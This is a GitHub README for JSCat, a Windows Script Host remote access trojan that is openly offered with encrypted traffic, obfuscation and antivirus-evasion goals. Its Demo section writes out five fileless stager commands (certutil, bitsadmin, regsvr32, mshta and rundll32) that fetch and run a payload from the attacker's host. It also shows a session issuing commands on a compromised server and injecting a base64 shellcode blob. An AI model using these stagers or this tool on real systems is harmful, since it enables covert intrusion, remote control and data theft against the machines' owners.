 # JSCat
```
      _    ___     ___             _
   _ | |  / __|   / __|   __ _    | |_
  | || |  \__ \  | (__   / _` |   |  _|
  _\__/   |___/   \___|  \__,_|   _\__|
_|"""""|_|"""""|_|"""""|_|"""""|_|"""""|
"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'
```

基于Windows Script Host的简单RAT！想法来源于Koadic和JSRat-Py，并不是要做一款功能全面的强大的远控，最终目标是轻量、流量加密、免杀和CS加载器。



### Features

- 反弹上线/自动上线/无文件落地
- 流量加密(rc4)
- JScript代码混淆（XOR方式，下一步计划研究使用javascript-obfuscator）
- 命令执行
- 上传/下载
- shellcode注入(By DotNetToJS)

### Install

```
# git clone https://github.com/hanc00l/jscat
# cd jscat
# pip3 install -r requirements.txt
```

### Demo

```
➜  python3 jscat.py -h

usage: jscat.py [-h] --host HOST [-p PORT] [--new_key] [-s SLEEP_TIME]

optional arguments:
  -h, --help            show this help message and exit
  --host HOST           server foreign ip for host connect
  -p PORT, --port PORT  server listening port,default is 6600
  --new_key             generate new rc4 key to encrypt data
  -s SLEEP_TIME, --sleep_time SLEEP_TIME
                        set host sleep time in second,default is 5
                        
➜  python3 jscat.py --host 172.16.80.1

[*]server cipher key: FnxYtigYdCcyrXph
[*]server running in  0.0.0.0:6600...
[*]host connect ip is 172.16.80.1:6600...
[*]Execute in host:
certutil -urlcache -split -f http://172.16.80.1:6600/init css.js && cscript //nologo css.js
bitsadmin /transfer n http://172.16.80.1:6600/init css.js && cscript //nologo css.js
regsvr32 /s /n /u /i:http://172.16.80.1:6600/file.sct scrobj.dll
mshta javascript:eval("x=new ActiveXObject('WinHttp.WinHttpRequest.5.1');x.open('GET','http://172.16.80.1:6600/init',false);x.send();eval(x.responseText)")(window.close())
rundll32 javascript:"\..\mshtml, RunHTMLApplication ";x=new%20ActiveXObject("Msxml2.ServerXMLHTTP.6.0");x.open("GET","http://172.16.80.1:6600/init",false);x.send();eval(x.responseText);window.close();

[+]received SESSION INIT, client:172.16.80.162,bytes 276
USER:WIN-KHI6PNROT09\Administrator*
HOST:WIN-KHI6PNROT09
OS:Windows Server 2008 R2 Standard***7601
DC:Unknown
ARCH:AMD64
CWD:C:\test
IP:172.16.80.162

>s -i 1
172.16.80.162(SID:1) >whoami
[+]received client:172.16.80.162,SID/JOB:1/2, bytes 536

用户信息
----------------

用户名                        SID
============================= ============================================
win-khi6pnrot09\administrator S-1-5-21-740217473-3054057987-2729292843-500


172.16.80.162(SID:1) >shell net user
[+]received client:172.16.80.162,SID/JOB:1/3, bytes 428

\\WIN-KHI6PNROT09 的用户帐户

-------------------------------------------------------------------------------
Administrator            Guest                    hancool
命令成功完成。

172.16.80.162(SID:1) >inject /EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HX
xTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu/C1olZBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY2FsYwA= 3292
[+]received client:172.16.80.162,SID/JOB:1/4, bytes 60
[Inject shellcode success]

172.16.80.162(SID:1) >help
Usage:
	info: get system info
	sleep [seconds]: set sleep time
	ps: show process list
	cat [path_file]: show remote file context
	run [cmd]: run program and return
	shell [cmd]: execute shell command
	upload [local_file] [remote_file]: upload file
	download [local_file] [remote_file]: download file
	js run [local_pathname]: run jscript file in remote host
	inject [base64_shellcode | -f shellcode_raw_file] [pid]: inject shellcode  by DotNetToJS
		(shellcode is bas64encoded or raw file)
	jobs: show session jobs
	alias: show shell alias name
	back: exit current session
```



### TODO

- [ ] JScript代码混淆
- [ ] 免杀



### Credits

- [Koadic](https://github.com/zerosum0x0/koadic)
- [JSRat-Py](https://github.com/Hood3dRob1n/JSRat-Py)
- [DotNetToJScript](https://github.com/tyranid/DotNetToJScript)
- [SharpShooter](https://github.com/mdsecactivebreach/SharpShooter)
- [awesome-rat](https://github.com/alphaSeclab/awesome-rat)
